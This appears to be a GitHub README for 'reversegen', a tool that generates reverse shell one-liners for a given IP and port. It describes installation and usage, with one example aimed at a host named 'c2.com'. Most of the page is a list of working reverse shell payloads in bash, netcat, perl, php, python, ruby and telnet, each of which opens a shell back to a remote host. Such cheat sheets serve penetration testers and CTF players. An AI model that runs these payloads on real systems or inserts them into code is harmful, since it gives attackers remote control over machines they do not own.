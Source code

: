 # Reverse Shell Generator

Sometimes searching the internet for a reverse shell and changing its values is a pain, that's what this tool is for.

When executed it prints out the reverse shell (so you can pipe it to `xclip` to copy and paste it) and optionally writes it to a file in case you need it later.

To copy the result of the script you can do it like this (it will prevent the script from outputting the reverse shell):

```
reversegen bash 10.10.1.14 1234 | xclip -selection clipboard
```

It also allows getting the IP from the hostname so you can pass as the IP argument an URL like: `google.com`.<br>Having it in `/etc/hosts` will have the script to choose that IP.

## Installation

```
chmod +x reversegen.py
sudo ln -s $(pwd)/reversegen.py /usr/local/bin/reversegen
```

## Usage:

```
reversegen [-h] -m METHOD -i IP -p PORT [-o FILENAME]
```

Example of usage: 

```
reversegen python 192.168.1.10 4444
reversegen python 10.10.1.14 4444 -f ~/rev
reversegen python c2.com 4444
```

## Available Methods

- bash: `bash -i >& /dev/tcp/IP/PORT 0>&1`

- bash2: `0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196`

- netcat: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f]`

- netcat2: `nc -e /bin/sh IP PORT`

- netcat3: `/bin/sh | nc IP PORT`

- netcat4: `rm -f /tmp/p; mknod /tmp/p p && nc IP PORT 0/tmp/p`

- perl: `perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- perl2 (Doesn't use */bin/sh*): `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- perl3 (For Windows): `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- php: `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`

- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- ruby: `ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

- ruby2 (Doesn't use */bin/sh*): `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- ruby3 (For Windows): `ruby -rsocket -e 'c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- telnet: `rm -f /tmp/p; mknod /tmp/p p && telnet IP PORT 0/tmp/p`

## Credits for the Reverse Shells to:

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Bernardo Damele](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
